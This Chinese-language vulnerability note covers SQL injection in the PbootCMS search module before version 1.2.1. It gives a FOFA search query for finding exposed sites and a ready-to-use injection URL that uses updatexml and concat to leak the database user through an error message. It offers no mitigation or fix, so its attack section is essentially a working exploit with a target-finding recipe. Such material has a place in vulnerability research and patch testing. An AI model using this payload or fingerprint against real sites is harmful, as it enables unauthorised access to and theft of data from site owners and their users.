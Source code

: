 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS < 1.2.1</a-checkbox></br>

## FOFA 

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

搜索框页面为

![img](../../../.vuepress/public/img/image-20210702112736099.png)



Payload为



```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```



![img](../../../.vuepress/public/img/image-20210702112805069.png)



